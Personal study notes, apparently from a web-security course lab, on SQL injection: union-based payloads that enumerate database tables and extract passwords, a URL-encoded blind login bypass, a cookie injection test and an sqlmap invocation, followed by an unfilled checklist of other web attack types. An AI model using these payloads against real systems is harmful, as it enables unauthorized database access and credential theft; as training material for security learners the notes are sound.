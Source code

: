 
- [ ] SQL- Union | Blind

## Union
https://portswigger.net/web-security/sql-injection/cheat-sheet

Single & Double quotes
```
jeremy' or 1=1# 
```

at the end will use the terminator # aka pound sign or we can even use
```
jeremy' or 1=1-- -
```

Version
```
version()
```


```
jeremy' union select null,null,table_name from information_schema.tables#
```

```
jeremy' union select null,null,column_name from information_schema.columns#
```

```
jeremy' union select null,null,password from injection0x01#
```


## Blind

As we put wrong password we can see that it generated error (i.e. change in content lenght) and also we viewed in render in response code

Than will try username = jeremy' or 1=1#
but will encode it using ctrl + u 
```
username=jeremy'+or+1%3d1%23%26password=password
```

Sqlmap
Copy the request and paste into a txt file -> req.txt

>[! bug] Look for Injection Points
- user agents and think out of the box

```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#; 
```

On a live target Mentor says to reduce the number of requests as will get limited request like 3 to 5.
```
sqlmap -r req.txt
```



- [ ] XSS -DOM | Stored

- [ ] Command Injection - Blind

- [ ] Insecure File Upload - Basic | Magic Bytes

- [ ] Authentication - Brute Force | MFA

- [ ] XXE

- [ ] IDOR


